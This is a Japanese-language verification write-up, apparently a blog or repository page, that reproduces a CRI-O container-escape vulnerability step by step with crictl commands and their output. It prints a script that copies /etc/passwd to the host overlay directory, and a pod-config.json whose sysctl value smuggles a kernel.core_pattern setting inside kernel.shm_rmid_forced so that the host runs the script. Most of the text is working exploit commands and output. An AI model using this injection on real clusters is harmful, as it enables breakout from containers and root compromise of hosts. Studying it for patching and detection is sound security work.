 ### 検証

最初にエクスプロイトコードを配置するコンテナを作成

```
# crio --version
crio version 1.23.1
Version:          1.23.1
GitCommit:        af642cdafed31e4be5dd82e996bb084050c8bb89
GitTreeState:     dirty
BuildDate:        1980-01-01T00:00:00Z
GoVersion:        go1.17.4
Compiler:         gc
Platform:         linux/amd64
Linkmode:         static
BuildTags:        apparmor, exclude_graphdriver_devicemapper, seccomp, selinux
SeccompEnabled:   true
AppArmorEnabled:  true
# crictl runp pod-config.json 
d33614f0b22d3d81bb680ee76eb1882a1b6287bb99515d6505d75e315b01297a
# crictl create d33614f0b22d3d81bb680ee76eb1882a1b6287bb99515d6505d75e315b01297a container-config.json pod-config.json 
9029e03c5ac9abf0475d23981d601df5ed0f9b2ebca4168c4a1f48b2caac6123
# crictl start 9029e03c5ac9abf0475d23981d601df5ed0f9b2ebca4168c4a1f48b2caac6123
9029e03c5ac9abf0475d23981d601df5ed0f9b2ebca4168c4a1f48b2caac6123
# crictl exec -it 9029e03c5ac9abf0475d23981d601df5ed0f9b2ebca4168c4a1f48b2caac6123 bash
root@d33614f0b22d:/# mount | grep overlay
overlay on / type overlay (rw,relatime,lowerdir=/var/lib/containers/storage/overlay/l/73PSGHB33J2RBZXIUVK7SRC4UA,upperdir=/var/lib/containers/storageoverlay/4ca77e9bde5220c9b0b54d57f41e56cbed6e873cd5ad67dbcdf43bc3cca1766f/diff,workdir=/var/lib/containers/storage/overlay/4ca77e9bde5220c9b0b54d57f41e56cbed6e873cd5ad67dbcdf43bc3cca1766f/work,metacopy=on,volatile)
root@d33614f0b22d:/# echo '#!/bin/sh' > /cmd
root@d33614f0b22d:/# echo 'cat /etc/passwd > /var/lib/containers/storage/overlay/4ca77e9bde5220c9b0b54d57f41e56cbed6e873cd5ad67dbcdf43bc3cca1766f/diff/output' >> cmd
root@d33614f0b22d:/# cat /cmd
#!/bin/sh
cat /etc/passwd > /var/lib/containers/storage/overlay/4ca77e9bde5220c9b0b54d57f41e56cbed6e873cd5ad67dbcdf43bc3cca1766f/diff/output
root@d33614f0b22d:/# chmod a+x /cmd
```

kernel.core_pattern を変更する pod を作成  
pod 作成はエラーになるが、kernel.core_pattern を見ると変更されている

```
# cat pod-config2.json 
{
    "metadata": {
        "name": "ubuntu-sandbox2",
        "namespace": "default",
        "attempt": 1,
        "uid": "edishd83djaidwnduwk28bcsd"
    },
    "log_directory": "/tmp",
    "linux": {
  "sysctls": {
      "kernel.shm_rmid_forced": "1+kernel.core_pattern=|/var/lib/containers/storage/overlay/4ca77e9bde5220c9b0b54d57f41e56cbed6e873cd5ad67dbcdf43bc3cca1766f/diff/cmd #"
  }
    }
}
# crictl runp pod-config2.json 
FATA[0001] run pod sandbox: rpc error: code = Unknown desc = container create failed: write to /proc/sys/kernel/shm_rmid_forced: Invalid argument 
# cat /proc/sys/kernel/core_pattern 
```